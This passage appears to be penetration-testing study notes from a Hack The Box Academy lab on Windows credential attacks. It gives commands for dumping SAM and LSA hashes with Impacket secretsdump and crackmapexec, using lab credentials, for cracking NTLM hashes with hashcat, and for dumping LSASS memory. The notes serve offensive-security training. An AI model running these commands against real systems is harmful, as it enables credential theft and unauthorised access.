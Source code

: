   * then, dump the hashes using Impacket's ```secretsdump.py```:

    ```sh
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    # also shows the format of hashes - like uid:rid:lmhash:nthash

    # store all hashes in a file
    vim NTLMhashes.txt

    # hashcat for cracking
    hashcat -a 0 -m 1000 NTLMhashes.txt /usr/share/wordlists/rockyou.txt
    ```
  
  * if we have creds with local admin privileges, we can consider remote dumping as well:

    ```sh
    crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
    # dumping LSA secrets remotely

    crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
    # dumping SAM remotely
    ```

* Attacking LSASS:

  * dumping LSASS process memory:

    * if we have GUI access to victim machine, we can use Task Manager to create a memory dump (Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file). A file called ```lsass.DMP``` is saved in ```C:\Users\username\AppData\Local\Temp``` (this can be moved to attacker machine)

    * alternatively, in case of CLI access, we can use tools like ```rundll32.exe``` and ```comsvcs.dll```:

      ```ps
      tasklist /svc
      # find PID of lsass.exe

      # or in PowerShell
      Get-Process lsass
      # get PID
